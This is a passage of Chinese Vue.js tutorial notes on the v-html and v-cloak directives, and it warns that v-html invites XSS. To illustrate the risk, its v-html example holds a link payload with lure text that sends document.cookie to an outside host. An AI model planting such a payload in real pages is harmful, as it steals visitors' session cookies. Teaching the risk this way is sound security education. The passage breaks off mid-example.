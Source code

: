 ### 1.15.2 v-html指令

1. 作用：向指定节点中渲染包含html结构的内容
2. 与插值语法的区别
    - （1）.v-html会替换掉节点中所有的内容，{{xx}}则不会
    - （2）.v-html可以识别html结构
3. 严重注意：v-html有安全性问题！！
    - （1）.在网站上动态渲染任意HTML是非常危险的，容易导致xss攻击
    - （2）.一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="str"></div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生成提示。
    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            str: '<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想看到的，点这里</a>'
        }
    })
</script>
</html>
```


### 1.15.3 v-clock指令（没有值）

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可以解决网速慢时页面展示出`{{xx}}`的问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-cloak</title>
   <style>
        [v-cloak]{
            display: none;
        }
   </style>
</head>
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
        <div v-clock>{{name}}</div>
```